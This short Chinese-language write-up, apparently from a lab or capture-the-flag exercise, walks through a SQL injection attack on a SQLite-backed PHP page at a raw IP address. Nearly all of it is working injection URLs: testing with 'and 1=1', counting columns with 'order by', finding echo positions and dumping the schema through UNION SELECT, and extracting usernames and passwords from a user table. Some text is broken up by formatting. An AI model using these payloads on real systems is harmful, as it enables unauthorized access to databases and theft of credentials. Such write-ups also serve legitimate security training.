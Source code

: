 SQLite  
  
判断诸如点：  

```
http://124.70.71.251:41903/new_list.php?id=1 and 1=1
http://124.70.71.251:41903/new_list.php?id=1 and 1=2
```

  
判断字段数  

```
http://124.70.71.251:41903/new_list.php?id=1 order by N (N=1, 2, 3, 4, 5)
```

  
当 N = 5 时，页面显示错误，当前表的字段数为 4。  
  
判断回显位  

```
http://124.70.71.251:41903/new_list.php?id=1 and 1=2 union select 1,2,3,4
```

  
查版本  

```
http://124.70.71.251:41903/new_list.php?id=1 and 1=2 union select 1,sqlite_version(),3,4
```

  
查表名和列名  

```
http://124.70.71.251:41903/new_list.php?id=1 and 1=2 union select 1,group_concat(sql),3,4 from sqlite_master
```

  
查数据  

```
http://124.70.71.251:41903/new_list.php?id=1 and 1=2 union select 1,group_concat(name),group_concat(password),4 from WSTMart_reg
```

  
依旧经典报错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1TPgcIRoFXehPYmHNOophVuicPgQsuEKibVc7r50g1LZTPV1ABbgyCDBG5DlEeLD3Xx62UQib0Y8Ljw/640?wx_fmt=png&from=appmsg "")  
  
爆列名：  

```
union select 1,name,sql,4 from sqlite_master limit 0,1
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1TPgcIRoFXehPYmHNOophV51W00ujmMXlNgYLZLK7L8GDBYibwvCcZXDDEmibfRNUzTXSayS0ClyCw/640?wx_fmt=png&from=appmsg "")  
  
字段  
  
union select   
1  
,  
name  
,  
password  
,  
4   
from  
 WSTMart_reg  
  